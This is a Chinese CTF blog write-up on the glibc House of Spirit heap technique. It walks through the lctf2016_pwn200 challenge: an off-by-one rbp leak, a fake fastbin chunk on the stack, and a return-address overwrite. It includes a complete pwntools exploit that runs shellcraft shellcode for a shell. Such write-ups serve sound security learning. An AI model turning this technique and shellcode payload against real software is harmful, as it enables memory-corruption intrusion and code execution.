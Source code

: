 ```yaml
---
title: 「PWN」House_of_Spirit
tags: ['CTF', 'Pwn', ]
authors: [nova]
categories: ['CTF']

---
```


看看`House_of_spirit`，这是一种依靠在栈上构造`fake_chunk`从而实现`(almost) arbitrary write`的技术。依赖`fastbin`

<!--truncate-->

# how2heap

整体还是比较简单的，需要注意的就是需要`16字节对齐`，且需要构造`next_fake_chunk`的`chunk_size`以绕过检查

![image-20220719220643524](https://cdn.novanoir.moe/img/image-20220719220643524.png)

![image-20220719220923354](https://cdn.novanoir.moe/img/image-20220719220923354.png)

# 实战

## lctf2016_pwn200

![checksec](https://cdn.novanoir.moe/img/image-20220719235857110.png)

保护啥也没开，想着就是直接`ret2shellcode`梭哈，但是没有那么多字节给我们栈溢出。

![400A8E](https://cdn.novanoir.moe/img/image-20220719235308594.png)

第一个`who are u?`的函数存在`Off-by-One`的漏洞，可以泄露出`400A8E`的`rbp`指向的内容（也就是父函数的`rbp`）

```python
def who_are_you(content: bytes) -> bytes:
    sh.sendafter(b'who are u?\n', content)
    sh.recv(0x30)
    return sh.recv(6).ljust(8, b'\x00')

rbp = u64(who_are_you(b'a'*0x30))
print("> rbp:", hex(rbp))
```

![RBP](https://cdn.novanoir.moe/img/image-20220719235609346.png)

函数`read_input()`返回了一个`int`，虽然`400A8E`没有使用，他也应该会存到栈上的某个位置，根据汇编得到其位于`[rbp-0x38]`的位置

![[rbp-0x38]](https://cdn.novanoir.moe/img/image-20220720000140408.png)

在`400A29`中，可以看出`dest`是指针，`buf`存在`8`字节的溢出，正好可以覆盖`dest`，而`dest`会存到`ptr`中，供之后的`menu`里的功能来`free`和`malloc`等。

![400A29](https://cdn.novanoir.moe/img/image-20220720000329530.png)

到此，我们可以初步猜想，可以在`buf`这里构造一个`fake_chunk`，然后把堆指针指向`buf`，这样我们就有了一个在栈上的`chunk`。问题是在`check_out`函数中，想要`free(ptr)`，我们必须依靠`House_of_spirit`伪造`fake_next_chunk_size`

根据计算，我们可以发现刚才的`id`正位于目前我们`buf+0x68`的位置，因此我们不妨造一个`0x50`大小的`chunk`，并把`id`设置成一个满足`house_of_spirit`的值。

![fake_next_chunk_size](https://cdn.novanoir.moe/img/image-20220720001354338.png)

如此一来，当我们执行`free(ptr)`时，便会将这个栈上的地址存到`fastbin`中，此时我们重新`malloc(0x60)`，并写入对应的`payload`更改返回地址，便可以拿到`shell`了

通过观察，我们可以发现唯一可以控制的`ret_addr`是`ptr+0x40`的这个。返回地址可控了，丢到哪里呢？还记得我们一开始`who_r_u`的时候输入了`0x30`的数据么？我们完全可以把`shellcode`写到这里。只要计算一下偏移就可以了。

![image-20220720002739429](https://cdn.novanoir.moe/img/image-20220720002739429.png)

完整EXP:

```python
from pwn import *
context(os='linux', arch='amd64', log_level='DEBUG')

sh = process(['./pwn200'])


def who_are_you(content: bytes) -> bytes:
    sh.sendafter(b'who are u?\n', content)
    sh.recv(0x30)
    return sh.recv(6).ljust(8, b'\x00')


def give_id(content: bytes):
    sh.sendafter(b'give me your id ~~?', content)


def give_money(content: bytes):
    sh.sendafter(b'give me money~', content)


def menu(index: int):
    sh.recvuntil(b"your choice : ")
    if index == 1:
        sh.sendline(b"1")
    elif index == 2:
        sh.sendline(b"2")
        sh.recvuntil(b"out~")
    elif index == 3:
        sh.sendline(b"3")
        sh.recvuntil(b'good bye~')


def check_in(length_: bytes, content: bytes):
    sh.sendlineafter(b'how long?', length_)
    sh.sendlineafter(length_ + b'\n', content)
    sh.recvuntil(b"in~")


def gdb_(time_: int = None, arg: str = None):
    gdb.attach(sh, arg)
    pause(time_)


rbp = u64(who_are_you(asm(shellcraft.sh()).ljust(0x30, b'\x00')))
# rbp = u64(who_are_you(b'a'*0x30))
print("> rbp:", hex(rbp))
give_id(b'2333')  # next_fake_chunk_size
payload = p64(0) + p64(0x60) + b'\x00'*(0x40-0x10-0x08) + p64(rbp-0xb0)
give_money(payload)

menu(2)
ret_addr = rbp - 0x50
payload = b'\x00'*0x38 + p64(ret_addr) + b'\x00'*0x0F
menu(1)
check_in(b'80', payload)
menu(3)
sh.interactive()

```

# 2014_hack.lu_oreo

哈哈哥们出了个整不明白的bug（`pwntools`接不到`Action`），后面再说吧，乐

![image-20220720204517147](https://cdn.novanoir.moe/img/image-20220720204517147.png)
